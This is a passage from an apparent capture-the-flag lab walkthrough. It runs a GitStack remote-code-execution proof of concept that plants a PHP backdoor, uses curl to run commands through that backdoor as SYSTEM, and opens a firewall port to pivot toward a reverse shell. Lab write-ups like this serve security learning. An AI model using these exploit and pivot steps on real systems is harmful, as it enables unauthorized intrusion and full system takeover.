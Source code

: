 Edit the python (POC) script to add target IP address and change backdoor file name.

```
⛩\> python2.7 git_rce.py

[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work.

[+] Execute command
"nt authority\system"
```

We got code execution and our php backdoor file is on server. If you want to code execution again we don’t need to run this POC script, but we can take advantage of our PHP backdoor file.

```
⛩\> curl 'http://10.200.188.150/web/exploit_rce.php' --data 'a=whoami'
"nt authority\system"
```

As you can see we have access to machine via our backdoor file. Let’s forward this request to burp suite and try to gain shell access.

```
⛩\> curl 'http://10.200.188.150/web/exploit_rce.php' --data 'a=whoami' --proxy http://127.0.0.1:8080
```

![Screen Shot 2021-09-13 at 23.19.58.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/EC6A44B8-3B51-4CBB-95F7-7D5C3834C4A3_2/Screen%20Shot%202021-09-13%20at%2023.19.58.png)

Before we try to gain shell access, try to get a ping back. As you can see it’s request timed out, that means this machine (.150) can’t connect to our IP (Kali Linux). However it can connect to web server (.200).

![Screen Shot 2021-09-13 at 23.24.09.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/B3D669D9-CDBE-4228-86C4-92FB7D3FA9D9_2/Screen%20Shot%202021-09-13%20at%2023.24.09.png)

So, we can open a port on web server and forward that traffic to our Kali machine. We can achieve this objective using ‘socat’ application. But first, we need to add a firewall rule to accept the incoming connection on specific port.

```
(remote) root@prod-serv:/root# firewall-cmd --zone=public --add-port 31337/tcp
success
```

Now that we have added a rule, let’s run socat and listen on that previously opened port and forward the traffic to our IP address (Kali Linux) on a different port.
